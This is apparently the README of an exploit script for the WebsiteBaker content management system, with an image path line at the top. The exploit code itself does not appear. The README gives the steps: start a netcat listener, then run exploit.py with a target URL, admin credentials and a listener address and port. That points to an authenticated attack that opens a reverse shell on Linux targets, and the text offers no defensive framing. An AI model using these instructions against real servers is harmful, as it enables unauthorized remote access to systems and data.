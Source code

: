 
First Start Listener With Netcat : nc -lvnp 4444

Then Use Exploit

Usage: python exploit.py -t TARGET_URL -u USERNAME -p PASSWORD --lhost LISTENER_IP --lport LISTENER_PORT

Example: python exploit.py -t http://192.168.1.104/WebsiteBaker -u admin -p admin --lhost 192.168.1.103 --lport 4444


#Notes:

Authentication is Required to Exploit Vulnerability

Exploit is For Linux Targets!
